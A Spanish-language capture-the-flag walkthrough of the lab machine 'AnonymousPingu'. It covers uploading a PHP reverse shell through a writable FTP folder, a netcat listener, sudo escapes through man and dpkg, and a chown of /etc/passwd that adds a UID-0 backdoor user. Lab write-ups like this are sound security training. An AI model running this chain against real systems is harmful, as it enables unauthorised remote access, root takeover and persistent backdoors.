


# AnonymousPingu

ftp con archivos expuestos

```text
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
```


- El recurso *upload* parece tener permisos de escritura
- Servicio de mantenimiento denominado “Heustonn”
Aprovechando esta configuración del servidor web con el servicio FTP y la posibilidad de escribir en este directorio, es posible realizar ejecución remota de código gracias a poder subir archivos de forma arbitraria al sitio ***(Unrestricted File Upload)***

1) Se crea un archivo *sh3ll.php*
2) Se obtiene la reverseshell de https://github.com/s-r-e-e-r-a-j/PHP-REVERSE-SHELL.git --> se configura la ip local 10.0.0.3 en base64 y se cambia en el script



3) Subir archivo con `curl -T sh3ll.php ftp://172.17.0.2/upload/`
*-T* : `--upload-file` se usa para subir un archivo a un servidor FTP o SFTP.
4) usar netcat para estar a la escucha en el p222 y clicar en el recurso en la web
`nc -nvlp 222`
5) Se consigue acceso a la máquina como **www-data**
6) Sanitizar consola script
`script /dev/null -c bash`
*CTRL+Z*
`stty raw -echo; fg`
`reset`
`xterm`
`export TERM=xterm`
`export SHELL=/bin/bash`
`stty rows 16 columns 184`

## Escalada

`sudo -l
*(pingu) NOPASSWD: /usr/bin/man*

La escalada será por el usuario *pingu* -> GTFOBINS
`sudo -u pingu /usr/bin/man man`
`!/bin/bash`
**pingu**

`sudo -l`
*(gladys) NOPASSWD: /usr/bin/nmap* --> descartado
*(gladys) NOPASSWD: /usr/bin/dpkg*

Se ejecuta -> GTFOBINS
`sudo -u gladys dpkg -l`
`!/bin/sh`
- Se sanitiza consola solo con:
`script /dev/null -c bash`

`sudo -l`
*(root) NOPASSWD: /usr/bin/chown* -> GTFOBINS
Con *chwon* es posible cambiar la propiedad y grupo de cualquier archivo o directorio del sistema

1) Se va a asignar como propietario del archivo “/etc/passwd” al usuario y grupo “gladys”
`sudo -u root /usr/bin/chown gladys:gladys /etc/passwd`
Comprobar -> `ls -al /etc/passwd`
Devolver primera línea-> `head -n 1 /etc/passwd`

2) Se añade un usuario al final del archivo que va a actuar de puerta trasera para poder acceder al usuario “root” y sus privilegios. Se le asignará una contraseña y se hashea con *openssl*
`openssl passwd 123456`
`echo 'root2:<hash>:0:0:root:/root:/bin/bash' >> /etc/passwd`
Comprobar (devolver última línea) -> `tail -n 1 /etc/passwd`

3) Se vuelve a asignar a “root” como propietario y grupo del archivo
`sudo -u root /usr/bin/chown root:root /etc/passwd`

4) `su - root2`
Como la configuración especificada es la misma que el usuario “root” (UID, GID, directorio home, shell…), cuando se accede con este usuario “puerta trasera”, en realidad se accede como “root” directamente.


